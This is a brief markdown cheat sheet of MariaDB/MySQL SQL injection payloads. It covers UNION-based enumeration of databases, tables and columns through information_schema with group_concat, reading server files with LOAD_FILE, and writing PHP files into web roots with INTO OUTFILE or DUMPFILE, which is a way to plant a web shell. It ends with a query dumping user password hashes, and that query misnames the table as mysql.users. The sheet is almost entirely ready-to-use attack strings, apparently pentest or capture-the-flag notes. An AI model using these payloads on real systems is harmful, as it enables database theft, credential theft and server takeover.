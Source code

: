 # mariadb mysql
## SQLi
### concat multiple values into one field rows
`group_concat( query )`
`... union select 1,2,group_concat(schema_name) from information_schema.schemata`

### union injection
### information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`
`... union select 1,2,group_concat(table_name, ':', column_name) from information_schema.columns where schema_name='interesting_db'`

## files
### check permissions
`show grants;`

### read
`LOAD_FILE('')`

### write
at the end of the query
`INTO OUTFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO OUTFILE '/var/www/html/test.php'`
`INTO DUMPFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO DUMPFILE '/var/www/html/test.php'`

### read database users
hashes can either be in `Password` or `authentication_string` columns
`union select User, Password, authentication_string from mysql.users`
